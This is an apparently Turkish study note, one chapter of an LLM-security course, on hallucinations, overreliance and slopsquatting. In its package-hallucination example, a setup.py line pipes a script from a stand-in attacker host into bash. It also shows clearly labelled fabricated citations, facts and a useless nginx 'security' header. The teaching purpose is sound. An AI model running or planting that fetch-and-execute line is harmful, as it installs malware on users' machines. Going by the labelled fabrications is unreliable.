

# Halüsinasyonları ve Aşırı Güvenmeyi Anlamak

> ◀ [[06 - Model Parmak İzi ve Keşif|Model Parmak İzi ve Keşif]] · 📚 [[00 - Yapay zeka|Ana Sayfa (MOC)]] · [[08 - Sistem Prompt Çıkarma Teknikleri|Sistem Prompt Çıkarma Teknikleri]] ▶

> [!abstract] Özet
> **Halüsinasyon:** LLM'in gerçekte yanlış, uydurma veya anlamsız içerik üretip bunu doğru bilgiyle **aynı güvenle** sunmasıdır. **Aşırı güven (overreliance):** insanların LLM çıktısına **doğrulamadan** güvenme eğilimidir. İkisi birleşince yanlış tıbbi tavsiyeden, uydurma yazılım paketleri yoluyla **tedarik zinciri saldırılarına** kadar gerçek zarar doğurabilen tehlikeli bir kombinasyon oluşur.

## İçindekiler (Bölüm 7)
- [[#Halüsinasyonlar Nelerdir?]]
- [[#Halüsinasyon Türleri]]
- [[#Paket Halüsinasyon Saldırıları]]
- [[#Aşırı Güven (Overreliance)]]
- [[#Güvenlik Açığı Olarak Halüsinasyonlar (OWASP LLM09)]]
- [[#Halüsinasyonlara Karşı Savunma]]
- [[#Temel Çıkarımlar (Bölüm 7)]]

---

## Halüsinasyonlar Nelerdir?

LLM'ler gerçekleri **"bilmez"**. Eğitimde öğrendikleri kalıplara dayanarak **en olası bir sonraki tokenı** tahmin ederler ([[01 - LLM Güvenliğine Giriş#LLM (Large Language Model) Nedir?|LLM nedir?]]). Model, eğitim verisinin yetersiz olduğu bir sorguyla karşılaştığında veya istatistiksel kalıplar makul ama yanlış bir tamamlamaya yol açtığında sonuç bir halüsinasyondur.

> [!example] Uydurulmuş atıf
> **Kullanıcı:** *"Prompt Injection hakkında hangi araştırmalar yayınlandı? Sağlık hizmeti yapay zeka sistemlerine saldırıyor mu? Spesifik makale başlıkları ve yazarları sağlayın."*
>
> **Halüsinasyonlu yanıt:**
> 1. *'Klinik Karar Desteğinde Tartışmalı Prompt Injection Sistemleri'*, Dr. Sarah Mitchell ve Prof. James Chen, Nature Medicine, 2024
> 2. *'Sağlık Hizmetleri LLM'in Güvenliğinin Sağlanması: Kapsamlı Bir Çerçeve'*, Zhang ve diğerleri, IEEE S&P 2024
>
> **Gerçeklik:** Bu makalelerin **hiçbiri mevcut değildir.** Model ikna edici başlıklar, yazar adları, yayın yerleri ve yıllar uydurdu.

---

## Halüsinasyon Türleri

| Tür | Açıklama |
|---|---|
| **Gerçek halüsinasyonlar** | Model yanlış gerçekleri **yüksek güvenle** belirtir. En yaygın ve en tehlikeli tür |
| **Fabrikasyon varlıklar** | Var olmayan kişiler, kuruluşlar, ürünler veya olaylar icat eder |
| **Kendine güvenen saçmalık** | Teknik olarak anlamsız içeriği otoriteyle sunar |
| **Kaynak halüsinasyonları** | Gerçek görünen ama var olmayan URL, alıntı veya referanslar üretir |

### Gerçek halüsinasyonlar
> [!example] Python ne zaman oluşturuldu?
> **Doğru yanıt:** *"Python ilk olarak 1991 yılında Guido van Rossum tarafından piyasaya sürüldü."*
>
> **Halüsinasyon:** *"Python, 1989 yılında Guido van Rossum tarafından yaratıldı. ABC dilinin halefi olarak Bell Labs."*
>
> Yıl yanlış, Bell Labs bilgisi yanlış. Ama yanıt, **inandırıcı görünmek için yeterince gerçek ayrıntı** içeriyor (Guido, ABC dili gibi).

### Fabrikasyon varlıklar
> [!example] Var olmayan araştırmacı
> **Kullanıcı:** *"Stanford'daki yapay zeka güvenlik araştırmacısı Dr. Robert Chen kimdir?"*
>
> **Halüsinasyonlu yanıt:** *"Dr. Robert Chen, Stanford Üniversitesi Bilgisayar Bilimleri Bölümünde doçenttir. Yapay zeka güvenliği ve hizalaması alanında uzmandır. Stanford AI Safety Center'a (SASC) liderlik eder ve adversarial dayanıklılık konusunda 40'tan fazla makale yayınlamıştır."*
>
> Bu yanıtın **tamamı uydurma olabilir.** Kişi, araştırma merkezi ve makale sayısı gerçekte mevcut olmayabilir. Model, eğitim verisindeki kalıplardan makul görünen ayrıntılar üretir.

### Kendine güvenen saçmalık
> [!example] "Kuantum tokenizasyonu"
> **Kullanıcı:** *"Kuantum tokenizasyonunun LLM güvenliğini nasıl geliştirdiğini açıklayın."*
>
> **Halüsinasyonlu yanıt:** *"Kuantum tokenizasyonu, tokenların aynı anda birden fazla anlamsal durumda bulunmasını sağlamak için kuantum süperpozisyon ilkelerini kullanan yeni bir tekniktir. Bu, Prompt Injection saldırılarını matematiksel olarak imkansız hale getirir; çünkü saldırgan, çıkarım sırasında tokenın hangi anlamsal duruma çökeceğini tahmin edemez..."*
>
> "Quantum tokenization" **gerçek bir kavram değildir.** Model, gerçek kavramları birleştirerek ikna edici ama tamamen uydurma bir açıklama üretti.

### Kaynak halüsinasyonları
> [!example] Var olmayan OWASP linki
> **Kullanıcı:** *"LLM Prompt Injection'a ilişkin OWASP kılavuzuna bir bağlantı sağlayın."*
>
> **Halüsinasyonlu yanıt:** *"Resmi kılavuzu şu adreste bulabilirsiniz: `owasp[.]org/www-project-llm-security/prompt-injection-guide`"*
>
> URL formatı normal görünür (OWASP'ın URL kalıbını izler) ama belirli sayfa mevcut olmayabilir; açıldığında **404** döner.
>
> **Doğrulanmış güncel OWASP kaynağı:** https://genai.owasp.org/llmrisk/llm01-prompt-injection/

---

## Paket Halüsinasyon Saldırıları

Halüsinasyonların gerçek dünyadaki en tehlikeli sonuçlarından biri **paket halüsinasyon saldırısıdır** (**slopsquatting**, "eğimli çömelme" olarak da bilinir). LLM'lerin **tekrar tekrar aynı var olmayan paket adlarını** uydurması gerçeğinden yararlanır. Bkz. [[02 - Yapay Zeka Güvenliği Neden Farklı#Tedarik Zinciri Farklı|AI supply chain]].



### Nasıl çalışır?
1. Bir araştırmacı birden fazla LLM'den belirli bir görev için **paket önermelerini** ister.
2. LLM'ler **sürekli olarak** var olmayan belirli paketleri (halüsinasyonlu isimler) önerir.
3. Saldırgan, yaygın halüsinasyona uğrayan bu **paket adlarını tanımlar**.
4. Saldırgan bu adları **PyPI, npm veya diğer kayıt defterlerine** kötü amaçlı kodla kaydeder.
5. Kullanıcılar LLM'in tavsiyesine uyup paketi yüklediğinde **kötü amaçlı yazılım yüklemiş olur.**

> [!example] Paket halüsinasyonu saldırı örneği
> **Adım 1:** Kullanıcı: *"LLM output validation için hangi Python kütüphanesini kullanmalıyım?"*
>
> **Adım 2:** LLM paket adı halüsinasyonu üretir:
> *"'llm-guard-validator' kullanmanızı öneririm. Şununla yükleyin: `pip install llm-guard-validator`"*
>
> **Adım 3:** `llm-guard-validator` paketi **mevcut DEĞİLDİR.** LLM bu adı kalıplara dayanarak uydurmuştur.
>
> **Adım 4:** Saldırgan bu adı PyPI'de, `setup.py` içinde kötü amaçlı kodla kaydeder:
> ```python
> import os
> os.system("curl https://attacker.com/payload.sh | bash")
> ```
>
> **Adım 5:** Kullanıcılar LLM'in önerisini izlediğinde:
> `$ pip install llm-guard-validator` → kötü amaçlı paket yüklenir, **payload çalışır.**

### Gerçek dünya etkisi
> [!danger] Araştırma bulguları (Vulcan Cyber ve akademik kurumlar)
> - LLM'ler birden fazla sorguda **sürekli aynı paket adlarını** halüsinasyon olarak üretiyor.
> - LLM paket önerilerinin **yaklaşık %20'si** mevcut olmayan paketlere atıfta bulunuyor.
> - Bu isimler, saldırganların **önceden kaydedebileceği kadar tahmin edilebilir.**
> - Saldırı hedefle **sıfır etkileşim** gerektirir; **LLM sosyal mühendisliği yapar.**

> [!tip] Bağlantı
> Aynı mantığın model dosyası tarafı için bkz. [[04 - OWASP LLM Top 10#LLM03 Supply Chain (Tedarik Zinciri)|LLM03: Supply Chain]] (pickle saldırısı).

---

## Aşırı Güven (Overreliance)

Halüsinasyon tehlikesini artıran **insan davranışsal kırılganlığıdır.** Kullanıcılar doğrulama olmadan LLM çıktısına güvendiğinde, halüsinasyonlu içerik gerçek içerikten **ayırt edilemez** hale gelir.

### Aşırı güven neden olur?

| Neden | Açıklama |
|---|---|
| **Otorite yanlılığı** | Model, insan uzmanla aynı güven tepkisini tetikleyen **kendinden emin, iyi yapılandırılmış** bir dille yanıt verir |
| **Otomasyondan hoşnutluk** | Kullanıcılar çıktıları **incelemeden kabul etme** alışkanlığı geliştirir |
| **Çaba asimetrisi** | Çıktıyı doğrulamak genelde onu üretmekten **daha fazla çaba** ister, doğrulamayı atlamak için teşvik yaratır |
| **Onay yanlılığı** | Kullanıcılar beklentilerine **uyan** çıktıyı kabul etmeye daha yatkındır |
| **Hacim aşırılığı** | Büyük ölçekli görevlerde her çıktıyı doğrulamak **pratik değildir** |

### Aşırı güven örnekleri

> [!example] Örnek 1: Hukuki araştırma
> **Avukat:** *"Veri ihlali sorumluluğu iddiasına ilişkin ilgili içtihat hukukunu bulun."*
>
> **LLM:** *"Smith v. DataCorp (2022) dönüm noktası niteliğindeki dava, şirketleri yapay zeka tarafından oluşturulan veri ihlallerinden 'algoritmik ihmal' ilkesi kapsamında kesinlikle sorumlu tutmuştur..."*
>
> Bu dava **mevcut değildir.** Avukat bunu mahkemede kaynak gösterirse **mesleki yaptırımlarla** karşılaşabilir.
>
> > [!warning] Gerçekten yaşandı
> > 2023'te avukatlar, federal mahkeme dosyalarında ChatGPT tarafından **uydurulan davaları** kaynak gösterdikleri için yaptırım aldı (**Mata v. Avianca, Inc.**).

> [!example] Örnek 2: Güvenlik yapılandırması
> **SysAdmin:** *"Önerilen nginx yapılandırması nedir? SSRF saldırılarını önlüyor mu?"*
>
> **LLM:** *"Nginx yapılandırmanıza aşağıdakileri ekleyin:"*
> ```nginx
> location / {
>     proxy_set_header X-SSRF-Protection 'enabled';
>     proxy_pass http://backend;
> }
> ```
>
> `X-SSRF-Protection` header'ı **mevcut değildir ve hiçbir şey yapmaz.** Sistem yöneticisi korunduğunu düşünerek bu "güvenlik" yapılandırmasını deploy eder; gerçekte **korunmuyordur.** Bkz. [[SSRF]].

---

## Güvenlik Açığı Olarak Halüsinasyonlar (OWASP LLM09)

**OWASP**, yanlış bilgiyi (halüsinasyonlar dahil) LLM Top 10'da **LLM09: Misinformation** olarak sınıflandırır. Bkz. [[04 - OWASP LLM Top 10#LLM09 Misinformation (Yanlış Bilgi)|LLM09]]. Güvenlik sonuçları salt yanlışlığın ötesine geçer.

### Halüsinasyonlardan yararlanan saldırı vektörleri

| Vektör | Açıklama |
|---|---|
| **Hedefli yanlış bilgi** | Saldırgan, LLM'i farkında olmadan bir **yanlış bilgilendirme ajanı** olarak kullanarak belirli halüsinasyonları güvenilir şekilde tetikleyen promptlar kurar |
| **Paket halüsinasyonundan yararlanma** | Saldırganlar halüsinasyonlu paket adlarını kötü amaçlı kodla kaydeder |
| **Alıntı manipülasyonu** | Saldırgan, LLM'lerin sık halüsinasyon gördüğü bir başlığa sahip **gerçek bir makale** oluşturarak yapay güvenilirlik kazanır |
| **Yetkili kimliğine bürünme** | LLM'ler var olmayan **onayları, sertifikaları veya yetkilendirmeleri** halüsinasyon olarak üretebilir |

---

## Halüsinasyonlara Karşı Savunma

Halüsinasyon riskini azaltmak için aşağıdaki stratejiler **birlikte** uygulanmalıdır:

| Strateji | Yapılacaklar |
|---|---|
| **[[03 - LLM Uygulama Mimarileri#Retrieval-Augmented Generation (RAG)\|RAG]]** | Yanıtları **doğrulanmış belgelere** dayandırır · Gerçek bağlam sağlayarak halüsinasyonu azaltır · **Tamamen ortadan kaldırmaz** |
| **Sıcaklığı düşürme** | Düşük [[01 - LLM Güvenliğine Giriş#Temperature (Sıcaklık)\|temperature]] = daha az rastgelelik ve genelde daha az halüsinasyon · `0`'a ayarlamak yaratıcı uydurmayı en aza indirir · **Takas:** yanıtlar daha az doğal olabilir |
| **Çıktı doğrulama pipeline'ları** | Otomatik doğrulama kontrolleri uygula · Çıktıları güvenilir veritabanlarıyla **çapraz kontrol et** · Kaynak atıflarını **zorunlu tut ve doğrula** |
| **Human-in-the-loop** | Kritik kararlar için LLM çıktısını **asla doğrudan kullanma** · Tıbbi, hukuki ve finansal çıktılarda **her zaman insan incelemesi** · Arayüzleri doğrulamayı teşvik edecek şekilde tasarla |
| **Paket doğrulaması** | LLM'in önerdiği paketleri **doğrulamadan asla kurma** · İndirme sayısı, oluşturulma tarihi ve bakımcı geçmişini kontrol et · **Lockfile ve checksum** doğrulaması kullan |

> [!success] Pratik kural
> Bir LLM'in verdiği **paket adı, URL, makale, içtihat veya yapılandırma satırı** hakkında şunu sor: *"Bunu bağımsız bir kaynaktan doğruladım mı?"*

---

## Temel Çıkarımlar (Bölüm 7)

> [!summary] Bölüm özeti
> 1. Halüsinasyonlar LLM'lerin **doğal bir özelliğidir**, tamamen düzeltilebilecek bir hata değildir. Token tahmininin olasılıksal doğasından kaynaklanırlar.
> 2. LLM'ler doğru ve yanlış içerik üretmeyi **ayırt edemez.** Doğruluk için değil, **inandırıcılık** için optimize ederler.
> 3. **Paket halüsinasyon saldırıları (slopsquatting)** gerçek ve büyüyen bir tedarik zinciri tehdididir. Kurulumdan önce **daima paket adlarını doğrula.**
> 4. **Aşırı güven**, halüsinasyonların teknik kırılganlığını artıran **insani bir güvenlik açığıdır.**
> 5. Savunma, **teknik önlemlerin** (RAG, sıcaklık kontrolü, çıktı doğrulaması) ve **insan uygulamalarının** (eleştirel değerlendirme, doğrulama iş akışları) kombinasyonunu gerektirir.

## İlgili Notlar (Bölüm 7)
- [[Slopsquatting]]
- [[Halüsinasyon]]
- [[Overreliance]]
- [[AI Supply Chain]]
- [[Human-in-the-loop]]

---
> ◀ [[06 - Model Parmak İzi ve Keşif|Model Parmak İzi ve Keşif]] · 📚 [[00 - Yapay zeka|Ana Sayfa (MOC)]] · [[08 - Sistem Prompt Çıkarma Teknikleri|Sistem Prompt Çıkarma Teknikleri]] ▶
